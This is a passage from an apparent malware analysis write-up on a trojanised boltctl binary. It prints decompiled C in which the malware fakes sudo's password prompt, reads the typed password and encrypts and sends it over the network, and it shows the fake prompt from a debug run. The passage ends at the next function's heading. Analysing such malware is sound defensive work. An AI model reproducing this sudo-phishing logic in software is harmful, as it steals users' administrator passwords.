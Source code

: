 Function **main_1C2D()** will

- Drop an embedded ELF binary to a temporary file on disk
- Call function **prompt_SUDO_password_and_send_1A31()**
- Execute the dropped ELF binary from disk with the same command line arguments as boltctl was startet with.

### Function prompt_SUDO_password_and_send_1A31

```c
__int64 prompt_SUDO_password_and_send_1A31()
{
  str_SUDO_USER = string_decrypt_1B61(&enc_SUDO_USER, 9uLL);
  env_SUDO_USER = getenv(str_SUDO_USER);
  if ( !env_contains_SUDO_vars_1329() )
    return 0LL;
  if ( get_syscw_from_ppid_13D4() )
  {
    sleep(1u);
    str_Sorry_try_again = string_decrypt_1B61(&enc_Sorry_try_again, 0x11uLL);
    puts(str_Sorry_try_again);
  }
  str_sudo_password_for = string_decrypt_1B61(&enc_sudo_password_for, 0x18uLL);
  printf(str_sudo_password_for, env_SUDO_USER);
  sudo_password = read_input_line_1514();
  encrypt_and_send_182B(sudo_password);
  return 0LL;
}
```

What this function basically does is

- Query entry for SUDO_USER from the environment variables
- Return prematurely if call to function **env_contains_SUDO_vars_1329()** returns false, which in turn queries for the existance of SUDO_COMMAND, SUDO_USER, SUDO_UID and SUDO_GID from the environment variables
- Print the string _Sorry, try again_ if a certain syscall write threshhold of the parent process is met
- Prints _[sudo] password for %s:_ with %s being the username.
- This way boltctl tries to lure the user into entering their (sudo) password by mimicking sudo behaviour.
- The password is read via function **read_input_line_1514()**.
- The password is then encrypted and send over the network via function **encrypt_and_send_182B()**.

Executing the binary debug run with SUDO_USER set to `hans`, boltctl will simulate sudo password entering

```txt
Sorry, try again.
[sudo] password for hans: 
```

### Function encrypt_and_send_182B
